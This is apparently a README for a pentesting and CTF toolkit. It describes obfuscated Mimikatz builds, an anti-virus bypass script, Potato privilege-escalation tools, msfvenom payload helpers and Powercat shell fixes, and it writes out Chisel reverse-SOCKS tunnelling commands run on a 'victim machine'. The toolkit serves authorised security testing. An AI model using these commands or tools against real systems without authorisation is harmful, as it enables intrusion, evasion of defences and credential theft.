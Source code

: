 # Kali Lootbox

This is a random collection of really handy scripts and binaries for use in pentesting or CTF. Some of the stuff I had to compile by hand because I couldn't find I couldn't find it anywhere else.

Some random things included...

**Chisel Client Socks**
Static binaries for x86/x64 win/lin. This is a really cool tunneling application, but never supported reverse dynamic port forwarding with SOCKS5. I found some code that enables this support, and compiled the static binaries for both OS and architectures. Usage is like

```
# on kali box:
./chisel server -p 8080 --reverse

# on victim machine
chisel client 10.10.14.3:8080 R:socks

# edit /etc/proxychains.conf and change bottom line to:
socks5 127.0.0.1 1080

```

**Mount Shared Folder in VMWare**
It is unbelievable to me that Shared Folders in VMWare don't automatically mount or work in any way on Kali without jumping through hoops. I wrote a quick script you can run to mount the folder.

**Mimikatz** 
* Old binaries that still work well on server 2019
* A custom compiled version with some obfuscation
* Powershell obfuscation script based on BlackHills Infosec article:
https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/

**Juicy and Rogue Potato Privesc Techniques**
* x86 version of Juicy Potato is nowhere to be found, adapted the project to work for a CTF that required it.

* RoguePotato - A newer adapter version of Juicy that works on the more modern patch levels of Windows

**Watson and Seatbelt**
* compile latest version of these awesome privesc tools

**Powershell scripts**
* A handful of random powershell scripts that query AD information. 
* A fix for Powercat that doesn't require you to hit the enter key of the victim side. Not sure why that is even a thing but it is.
* A runas script that works a lot like sudo for Windows. The example uses a user to launch netcat, but you can use any binary you want.

**Metasploit/MSFVenom Automation**
* Wrote some quick helper scripts to automatically create msfvenom payloads, and supplementary Metasploit resource files to catch with multi/handler. Makes it really quick and easy to stage a shell and listener.

**Misc Python Scripts**
* The badchars array for buffer overflow
* A script for automating VRFY lookups with a text file of addressess
* A simple ping scanner